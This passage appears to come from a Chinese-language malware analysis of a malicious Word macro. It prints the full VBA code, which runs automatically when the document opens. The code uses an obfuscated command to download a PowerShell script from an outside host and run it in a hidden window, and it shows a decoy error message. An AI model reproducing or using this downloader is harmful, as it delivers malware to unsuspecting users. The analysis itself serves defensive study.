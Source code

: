 ```VB
Private Sub Document_Open()
Dim CGJKIYRSDGHJHGFFG As String
CGJKIYRSDGHJHGFFG = "cmd /K " + "pow" + "eR" & "sh" + "ell.e" + "x" + "e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('http://skycpa.in/file.php','%TEMP%\Y.ps1'); poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile -file %TEMP%\Y.ps1"
Shell CGJKIYRSDGHJHGFFG, 0
MsgBox ("Unreferenced library required")
End Sub
```

这段宏首先拼接了一段字符串CGJKIYRSDGHJHGFFG，这段字符串是一段命令，接下来就调用Shell() ，执行这段命令。但是CGJKIYRSDGHJHGFFG的内容经过混淆，我们没办法一眼看出执行了什么命令，我们可以改造宏代码，使用Msgbox将CGJKIYRSDGHJHGFFG这段命令打印出来：

![1552210524095](assets/1552210524095.png)



![1552210498101](assets/1552210498101.png)

